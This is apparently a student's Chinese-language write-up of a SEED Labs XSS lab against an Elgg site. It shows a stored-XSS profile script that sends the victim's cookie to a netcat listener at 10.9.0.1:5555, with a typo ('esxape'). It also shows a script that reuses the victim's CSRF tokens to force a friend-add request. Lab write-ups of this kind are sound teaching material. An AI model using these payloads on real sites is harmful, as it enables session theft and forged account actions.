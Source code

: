 <img src="https://i.loli.net/2021/07/21/uxA5MY6WwpQP28f.png" alt="image-20210720162334798" style="zoom: 67%;" />

# Task 3: Stealing Cookies from the Victim’s Machine

这个 Task 用来熟悉如何发回数据。修改 Samy 的 profile 如图所示

```html
<script>
    document.write('<img src=http://10.9.0.1:5555?c=' +
                   esxape(document.cookie) +
                   '>');
</script>
```

<img src="https://i.loli.net/2021/07/21/POaxsDobUyGFJ3g.png" alt="image-20210720162710319" style="zoom:67%;" />

在端口上开启监听

```shell
$ nc -lknv 5555
```

登录 Alice 账号，点进 Samy 的 profile，看到返回了 cookie

<img src="https://i.loli.net/2021/07/21/A4T217hExDrLPVB.png" alt="image-20210720162909994" style="zoom: 50%;" />

# Task 4: Becoming the Victim’s Friend

这个 Task 利用 js 实现 GET 方法。修改 Samy 的 profile 如图所示

```html
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        
        var sendurl="http://www.seed-server.com/action/friend/add?friend=59" +
            ts + token;
        
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

<img src="https://i.loli.net/2021/07/21/RGf21x36UkzpBHE.png" alt="image-20210720164253715" style="zoom:67%;" />

登录 Alice 账号，点进 Samy 的 profile，看到已经添加了好友

<img src="https://i.loli.net/2021/07/21/PZO5qHEzI7w8Nia.png" alt="image-20210720164220444" style="zoom:67%;" />
